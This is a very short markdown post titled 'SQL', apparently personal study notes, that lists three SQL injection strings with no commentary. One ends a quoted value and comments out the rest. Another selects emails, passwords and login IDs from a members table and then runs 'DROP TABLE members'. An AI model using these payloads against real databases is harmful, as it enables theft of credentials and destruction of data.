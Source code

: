 ```yaml
---
title: SQL
layout: post
---
```


Select * from members where user = '*'

Select * from members where email = 'x' AND email IS NULL; --';

SELECT email, passwd, login_id, full_name FROM members WHERE email = 'x'; DROP TABLE members; --'; 